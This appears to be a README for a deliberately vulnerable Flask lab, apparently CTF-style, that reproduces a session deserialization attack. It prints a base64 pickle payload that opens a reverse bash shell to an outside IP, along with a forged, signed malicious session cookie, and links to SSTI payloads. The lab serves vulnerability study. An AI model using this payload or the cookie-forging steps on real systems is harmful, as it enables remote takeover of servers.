 # Collection of verified vulnerabilities

## *Easy Flask - Python 反序列化*

### 使用方法
```
SessionDeserialization/
├── README.MD                   ────介绍文档
├── app.py                      ────flask app路由文件
├── conf.py                     ────flask配置文件
├── source                      ────source样例文件
└── template/                   ────模版目录
```
- 依赖安装
```
➜ python3 -m pip install itsdangerous
➜ python3 -m pip install flask
```
- 运行：`python3 app.py`
```
CTFHUBCTFHUBCTFHUB
 * Serving Flask app "app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)

```

### 反序列化复现

- [*command.py*(点击查看代码)](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/SessionDeserialization/poc/command.py) 生成base64加密命令：
```
➜ python command.py
Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4=
```

- [*flask_manage_python3.py*(点击查看代码)](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/SessionDeserialization/poc/flask_manage_python3.py) 生成攻击反序列化session值：

```
➜ python3 flask_manage_python3.py encode -t "{'u':{'b':'Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4='}}" -s 'CTFHUBCTFHUBCTFHUB'

.eJwNys0OgiAAAOB34QkIaVO3DoarFGElpeARlmQ_xCVNne9e3_mbwQfEM9AgBmoVtcpVXh9Kr59RS14VUvVATZpQumOdXEVey21vXNnK0TodMEfFerpKDpsavnOU3wyytqgf9tipvtlXqAjKuyEh5CMOOMETExhxEn7ZORmYSIb_s0wYn1k_sJOHJs3oxSUT6fAGLMsP6_szsg.YJiviQ.l_Q71GoaEtJUOpftylPuSDqzUPU
```

![poc_success.png](../../assets/flask_poc_success.png)

## *Flask SSTI*（模版注入漏洞）

- [*python payload*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Flask/SSTI/)